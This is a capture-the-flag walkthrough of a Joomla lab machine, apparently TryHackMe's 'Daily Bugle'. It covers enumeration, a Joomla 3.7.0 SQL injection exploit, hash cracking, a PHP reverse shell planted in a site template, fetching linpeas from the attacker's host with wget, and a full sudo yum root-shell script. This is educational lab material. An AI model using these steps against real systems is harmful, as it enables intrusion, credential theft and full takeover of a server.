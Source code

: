 # Enumeration

A quick autorecon scan reveals a number of open ports. We confirm with an nmap scan.
 
![a6ff4cf9e9f985bd7cb1e2491264d1a9.png](/Daily%20Bugle/_resources/a6ff4cf9e9f985bd7cb1e2491264d1a9.png)

![717a1c54c37a686bbed4a6e2feecea66.png](/Daily%20Bugle/_resources/717a1c54c37a686bbed4a6e2feecea66.png)
 
Let's start enumerating the web server. Along with some shocking news, we find a login form.
 
![f8ba35371648d4632c5f5e8b1f779232.png](/Daily%20Bugle/_resources/f8ba35371648d4632c5f5e8b1f779232.png)
 
Examining the `robots.txt` file from our autorecon output (or just navigating to the `/robots.txt` directory) reveals some potentially interesting directories.

```txt
User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

Let's check the administrator directory. We find a Joomla login form.
 
![556cdf785bd0990447c6209117bb1981.png](/Daily%20Bugle/_resources/556cdf785bd0990447c6209117bb1981.png)
 
We can get more information using the joomscan tool. After installing joomscan, we use `joomscan -ec -u 10.10.53.236`.  The `-ec` flag tells joomscan to enumerate components. Alternatively, we can look around the webpage a bit more. Some Googling tells us that the Joomla version number can be found at `/language/en-GB/en-GB.xml`.
 
![6fc698e1b5863693652d9c2be6164516.png](/Daily%20Bugle/_resources/6fc698e1b5863693652d9c2be6164516.png)
 
Let's also run a gobuster scan to check for any interesting directories.
```bash
gobuster dir -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200" -o output.txt
```
 
![d5f652010da5f71b2afb2ea5073046c0.png](/Daily%20Bugle/_resources/d5f652010da5f71b2afb2ea5073046c0.png)
 
The `README.txt` files gives us some info about Joomla, including the version number (which we found above through a slightly unconventional method).

<br>

# Exploitation

Since we have a service and a version number, we can begin looking for a vulnerability to exploit. Searchsploit tells us that Joomla 3.7.0 is vulnerable to SQL injection.
 
![dbf7b5f5093d2e5e69069c09c2de9107.png](/Daily%20Bugle/_resources/dbf7b5f5093d2e5e69069c09c2de9107.png)
 
We use ``sqlmap -u http://10.10.50.236 --forms --crawl=10``, selecting all default options along the way. After a while, we don't get any results. One option is to do the SQLi manually; see [this link](https://github.com/hack3rman/TryHackMe/blob/master/Daily%20Bugle.md) for a nice writeup.

Some Googling tells us that we can also make use of [this script](https://github.com/XiphosResearch/exploits/tree/master/Joomblah), which is an exploit for Joomla 3.7.0. Run `python2.7 joomblah.py http://10.10.50.236`. (Note: I had to specifically use Python 2.7 here, as the script wasn't running properly.)
 
![1bd76d5497480cfbd64aa3c8feafba9a.png](/Daily%20Bugle/_resources/1bd76d5497480cfbd64aa3c8feafba9a.png)
 
We get a few usernames (one of which we already knew of from the webpage) together with a hash. Let's crack it with hashcat. I typically have some trouble using hashcat on a VM,  so I follow the methodology [here](https://samsclass.info/123/proj10/p12-hashcat.htm) to use an old version of hashcat which my VM could run.

```bash
/home/kali/hash/hashcat-cli32.bin -m 3200 -a 0 -o found.txt hash.txt /usr/share/wordlists/rockyou.txt
```

We specify the path to the binary, and we use:
- `-m` to specify the mode. In this case, I chose 3200 according the list of [hashcat examples](https://hashcat.net/wiki/doku.php?id=example_hashes).
- `-a` specifies the attack mode. 0 corresponds to a dictionary attack.
- `-o` specifies the output file.
- We then specify the file with our hashes (in this case just one), and the path to the wordlist. In this case, we're using `rockyou.txt`.

After exactly 1h 15m, the hash was cracked. This would have gone faster if I had used my Windows host machine to run hashcat, as opposed to my Kali VM image.
 
![afd68c9a45b3e5ad65d0a91905a165b4.png](/Daily%20Bugle/_resources/afd68c9a45b3e5ad65d0a91905a165b4.png)

![35d0c711d7e5c2e106a9637df095cc1a.png](/Daily%20Bugle/_resources/35d0c711d7e5c2e106a9637df095cc1a.png)
 
Now we can log in to Jonah's Joomla account from the administrator login page we found earlier.
 
![901e4e8b85712ca547bd3dc0b82f8d01.png](/Daily%20Bugle/_resources/901e4e8b85712ca547bd3dc0b82f8d01.png)
 
Looking around, we eventually find a page which allows us to edit the templates associated with the Joomla CMS. If we click on the Beez3 template, we see a list of php file which we can potentially exploit. Let's look at the /index.php file.
 
![2efd186e9ae789e0f017c44337ab9493.png](/Daily%20Bugle/_resources/2efd186e9ae789e0f017c44337ab9493.png)

![d9052a8b13b38bdca3e0b2f3d269a9b8.png](/Daily%20Bugle/_resources/d9052a8b13b38bdca3e0b2f3d269a9b8.png)
 
We will use the standard [Pentestmonkey php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). We copy and paste the shell code into the /index.php file, making sure to use our attacking machine IP and a port of our choice.
 
![1fb736dbb57acf3a7ab718fb45c1e930.png](/Daily%20Bugle/_resources/1fb736dbb57acf3a7ab718fb45c1e930.png)
 
Now set up a netcat listener and navigate to `http://10.10.76.10/templates/beez3/index.php` to catch the reverse shell, giving us initial access.
 
![cd460351fcc4cf08333b8354fe9269ac.png](/Daily%20Bugle/_resources/cd460351fcc4cf08333b8354fe9269ac.png)
 
<br>

# Post-exploitation

Let's start by upgrading our shell with `python -c 'import pty; pty.spawn("/bin/bash")'
`. Looking around the file system, we find a directory belonging to `jjameson`, which we don't seem to have access to. Let's try escalating our privilege. Using `find / -perm -u=s -type f 2>/dev/null` to look for files with the SUID bit set, we find some candidates.
 
![83e467cfd5af8ddef71a1a5ca54f5986.png](/Daily%20Bugle/_resources/83e467cfd5af8ddef71a1a5ca54f5986.png)
 
At this point, we check [GTFObins](https://gtfobins.github.io/) to see if we can leverage any of the binaries we found in our search. It doesn't look like this is the right approach. Let's instead use [LinPEAS](https://github.com/carlospolop/PEASS-ng/releases/tag/20220717) to search for possible privilege escalation methods on the target machine. Download the linpeas.sh file onto the attacking machine, spin up a webserver with `python3 -m http.server`, and download it onto the target machine using `wget <attacking IP>:8000/linpeas.sh`.
 
![def636cb01192ace178966359de736d8.png](/Daily%20Bugle/_resources/def636cb01192ace178966359de736d8.png)
 
Here I saved the file to the `/tmp` directory so that I don't have to worry about write permissions.
 
![c394d08ab7b3fd4ae59b407365d2a84b.png](/Daily%20Bugle/_resources/c394d08ab7b3fd4ae59b407365d2a84b.png)
 
Now use `chmod +x linpeas.sh` to mark the file as executable, then run it with `./linpeas.sh`. We find a password in a public PHP config file.
 
![1a34e49fbe938a3d2f25ec3018589374.png](/Daily%20Bugle/_resources/1a34e49fbe938a3d2f25ec3018589374.png)
 
Earlier we found a user named jjameson, so we can try using the password we just found so switch into his account.
 
![82bbb48b299ce44bf1c3993fad8b731e.png](/Daily%20Bugle/_resources/82bbb48b299ce44bf1c3993fad8b731e.png)
 
Success! Navigating to jjameson's home directory gives us the `user.txt` flag.

Now we look for a way to escalate our privilege to obtain the root flag. Using `sudo -l` tells us that jjameson can run the yum binary with sudo privileges.
 
![23809e8f1de19246829b7a180af6c061.png](/Daily%20Bugle/_resources/23809e8f1de19246829b7a180af6c061.png)
 
Going back to [GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo), we see that yum does not drop elevated privileges when run as sudo. We can spawn a root shell with the following commands:

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

(It may be easier to just copy and paste line-by-line directly from GTFOBins.)

As promised, we get a shell with root access which we then use to quickly find the `root.txt` flag.
  
![ad5d66d1a634cc31982f20b70c324841.png](/Daily%20Bugle/_resources/ad5d66d1a634cc31982f20b70c324841.png)

![0b2f3894eda28b03b1003c5bad1b1f2c.png](/Daily%20Bugle/_resources/0b2f3894eda28b03b1003c5bad1b1f2c.png)

</center>